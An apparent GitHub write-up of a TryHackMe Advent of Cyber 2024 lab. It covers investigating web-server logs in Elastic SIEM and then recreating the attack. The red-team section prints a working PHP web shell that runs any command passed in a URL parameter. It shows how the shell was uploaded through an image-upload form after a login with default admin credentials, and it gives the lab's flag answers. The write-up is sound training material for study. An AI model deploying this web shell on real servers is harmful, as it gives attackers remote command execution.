 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis

## Objectives 🎯

1. Investigate suspicious activity on Frosty Pines Resort’s web server using Elastic SIEM.
2. Identify how a web shell was uploaded and accessed.
3. Exploit the same vulnerability to recreate the attack and retrieve the hidden flag.

## Steps 🚀

### Step 1: Investigating the Logs (Blue Team)

#### Setting Up Elastic SIEM
1. Logged into **Kibana** at `http://MACHINE_IP:5601`.
2. Selected the **frostypines-resorts** index under the **Discover** tab.
3. Adjusted the timeframe to:
   ```
   October 1, 2024, 00:00 – October 3, 2024, 20:00
   ```
4. Added relevant fields:
   - `requests`
   - `clientip`
5. Searched for `"shell.php"` in the `requests` field.

#### Findings
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

### Step 2: Exploiting the RCE Vulnerability (Red Team)

#### Exploit Steps
1. **Edit Hosts File:**
   - Added `MACHINE_IP frostypines.thm` to `/etc/hosts`.
2. **Log In:**
   - Accessed `http://frostypines.thm` and logged in using:
     - **Username:** admin@frostypines.thm
     - **Password:** admin
3. **Prepare Web Shell:**
   - Created `shell.php` with the following code:
     ```
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
4. **Upload the Web Shell:**
   - Uploaded `shell.php` as the room image under “Add Room.”
5. **Locate the Shell:**
   - Confirmed the upload at:  
     `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**
   - Accessed the shell and executed:
     ```
     cat flag.txt
     ```

#### Result
- **What is the content of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Key Findings 🔑

1. **Upload Location:** The web shell was uploaded to `/media/images/rooms/shell.php`.
2. **Access Point:** The attacker’s IP was `10.11.83.34`.
3. **Exploit Success:** By recreating the attack, I retrieved the flag using the web shell.

## Lessons Learned 🌟

### Blue Team Insights
1. **Log Analysis Matters:** Elastic SIEM made it efficient to trace the attacker’s actions and pinpoint suspicious activity.
2. **Correlate Data:** Adding context with fields like `requests` and `clientip` accelerated the investigation.
3. **Monitoring Uploads:** Unvalidated file uploads are a significant security gap.

### Red Team Insights
1. **Web Shell Simplicity:** A basic PHP script can compromise a system, emphasizing the importance of validating uploaded files.
2. **Default Credentials Are Dangerous:** The admin account used weak credentials (`admin/admin`), making it an easy target.
3. **Defense Against Exploits:** Proper input validation and access controls could have mitigated this attack.

### Tools and Techniques 🛠️

1. **[Elastic SIEM](https://www.elastic.co/security/siem):** Used to investigate web server logs and identify attacker activity.  
2. **Text Editor:** Created the PHP web shell to exploit the vulnerability.  
3. **Browser:** Navigated and interacted with the Frosty Pines Resort website during the attack.  

## Final Thoughts 🎁

Day 3 highlighted the importance of both offensive and defensive skills in cybersecurity. Investigating the logs with Elastic SIEM provided clear insights into the attack, while exploiting the vulnerability demonstrated how impactful simple security oversights can be. Excited to tackle Day 4!

### Answers ✅
1. **Where was the web shell uploaded to?**  
   **Answer:** `/media/images/rooms/shell.php`
2. **What IP address accessed the web shell?**  
   **Answer:** `10.11.83.34`
3. **What is the content of the flag.txt?**  
   **Answer:** `THM{Gl1tch_Was_H3r3}`

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](../README.md)                 | 9    | [Risk Assessment](days/day9.md)         | 17   | [Log Analysis](days/day_17.md)          |
| 1    | [OPSEC Challenge](days/day1.md)        | 10   | [Phishing](days/day_10.md)              | 18   | [Prompt Injection](days/day_18.md)      |
| 2    | [Log Analysis](days/day2.md)           | 11   | [Wi-Fi Attacks](days/day_11.md)         | 19   | [Game Hacking](days/day_19.md)          |
| 3    | **Log Analysis**                       | 12   | [Web Timing Attacks](days/day_12.md)    | 20   | [Traffic Analysis](days/day_20.md)      |
| 4    | [Atomic Red Team](days/day4.md)        | 13   | [WebSockets](days/day_13.md)            | 21   | [Reverse Engineering](days/day_21.md)   |
| 5    | [XXE](days/day5.md)                    | 14   | [Certificate Mismanagement](days/day_14.md)| 22 | [Kubernetes DFIR](days/day_22.md)       |
| 6    | [Sandboxes](days/day6.md)              | 15   | [Active Directory](days/day_15.md)      | 23   | [Hash Cracking](days/day_23.md)         |
| 7    | [AWS Sandboxes](days/day7.md)          | 16   | [Azure Exploitation](days/day_16.md)    | 24   | [Communication Protocols](days/day_24.md)|
| 8    | [Shellcodes](days/day8.md)             |      | **Merry SOC-mas!** 🎁✨☃️              |      | 🎄✨🎅                                |
